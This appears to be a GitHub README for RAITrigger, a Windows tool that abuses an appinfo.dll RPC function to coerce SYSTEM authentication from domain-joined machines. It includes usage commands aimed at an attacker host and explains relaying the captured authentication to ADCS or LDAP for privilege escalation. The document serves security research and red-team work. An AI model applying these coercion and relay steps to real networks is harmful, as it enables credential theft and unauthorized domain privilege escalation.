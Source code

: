 # RAITrigger

The RPC-function `RAiForceElevationPromptForCOM` from the `appinfo.dll` library allows SYSTEM coercion. This only works on **domain joined systems**. It turns out, that this function can be called from any low privileged user (not to spawn a process) but to trigger SYSTEM authentication to an arbitrary location. This is because `CreateFileW` is called as SYSTEM to the first input parameter's location:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/main/SystemTrigger.png?raw=true" width="500">
</div>
<br>

As the low privileged user is still impersonated, this cannot be used as Potato trigger to elevate Privileges from `SEImpersonate` to SYSTEM:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/main/Impersonation.png?raw=true" width="500">
</div>
<br>

But it can be used to request a computer account certificate against ADCS when web enrollment is enabled with the incoming SMB authentication. Or it can be used for LPE with relaying to LDAP - when LDAP Signing is not enabled.

To Trigger SMB authentication:
```bash
[*] RAITrigger.exe \\attackerip\test\test.exe
```

To Trigger HTTP authentication (WebClient service needs to be enabled):
```bash
[*] RAITrigger.exe \\hostname@80\test\test.exe
```

HTTP authentication is only triggered to trusted intranet zone systems, so you will need to create an ADIDNS record for your Kali IP or be in the same subnet and use e.G. Responder. Never use the full FQDN, only the hostname.

Calling this function from remote (even with local administrator) leads to `rpc_access_denied` so this is no alternative to e.G. PetitPotam or similar:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/main/Denied.png?raw=true" width="500">
</div>
<br>


## Room for improvement

- The NtApiDotNet library is huge. Using MIDL bytes can drastically reduce the assembly size similar to [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers/)

## Credits

- https://github.com/warpnet/MS-RPC-Fuzzer
